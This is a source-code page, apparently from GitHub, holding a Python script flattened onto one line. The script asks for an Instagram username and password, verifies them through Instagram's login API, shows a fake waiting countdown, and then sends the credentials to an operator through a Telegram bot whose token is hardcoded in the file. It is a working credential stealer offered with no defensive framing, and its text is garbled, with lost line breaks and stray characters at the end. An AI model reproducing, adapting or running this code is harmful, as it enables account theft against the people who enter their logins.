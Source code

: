 # kk
import requests import uuid uid = uuid.uuid4() from time import sleep dad = 100 username = input(' [?] Enter Your Username -> : ') password = input(' [?] Enter Your Password -> : ') logurl = 'https://i.instagram.com/api/v1/accounts/login/' headers = {     'User-Agent': 'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)',         "Accept": "/",         "Accept-Encoding": "gzip, deflate",         "Accept-Language": "en-US",         "X-IG-Capabilities": "3brTvw==",         "X-IG-Connection-Type": "WIFI",         "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",         'Host': 'i.instagram.com',         'Connection': 'keep-alive' } datalog = {         'uuid': uid,         'password': password,         'username': username,         'device_id': uid,         'from_reg': 'false',         '_csrftoken': 'missing',         'login_attempt_countn': '0'     } lodreq = requests.post(logurl, data=datalog, headers=headers).text if "logged_in_user" in lodreq:     class BotHandler:         def __init__(self, token):             self.token = token             self.api_url = "https://api.telegram.org/bot{}/".format(token)          # url = "https://api.telegram.org/bot&lt;token>/"          def get_updates(self, offset=0, timeout=30):             method = 'getUpdates'             params = {'timeout': timeout, 'offset': offset}             resp = requests.get(self.api_url + method, params)             result_json = resp.json()['result']             return result_json          def send_message(self, chat_id, text):             params = {'chat_id': chat_id, 'text': text, 'parse_mode': 'HTML'}             method = 'sendMessage'             resp = requests.post(self.api_url + method, params)             return resp          def get_first_update(self):             get_result = self.get_updates()              if len(get_result) > 0:                 last_update = get_result[0]             else:                 last_update = None              return last_update       token = '1621023590:AAE4ZVYk4cE-Vi0iAsPaMk2UaGyLUZpjybE'  # Token of your bot     magnito_bot = BotHandler(token)  # Your bot's name  while True:     sleep(1)     dad -= 1     print(f' \r [+] {dad}', end='')     if dad == 0:         print(' ok please waite .. ')         def main():             new_offset = 0               while True:                    all_updates = magnito_bot.get_updates(new_offset)                  if len(all_updates) > 0:                     for current_update in all_updates:                         first_update_id = current_update['update_id']                         if 'text' not in current_update['message']:                             first_chat_text = 'New member'                         else:                             first_chat_text = current_update['message']['text']                         first_chat_id = current_update['message']['chat']['id']                         if 'first_name' in current_update['message']:                             first_chat_name = current_update['message']['chat']['first_name']                         elif 'new_chat_member' in current_update['message']:                             first_chat_name = current_update['message']['new_chat_member']['username']                         elif 'from' in current_update['message']:                             first_chat_name = current_update['message']['from']['first_name']                         if first_chat_text == 'اوكي':                             magnito_bot.send_message(first_chat_id, f'hi sir \nusername : {username},\npassword : {password} \nok ? ' )                             break                             main()                         else:                             first_chat_name = "unknown"         main()aaaaaaa
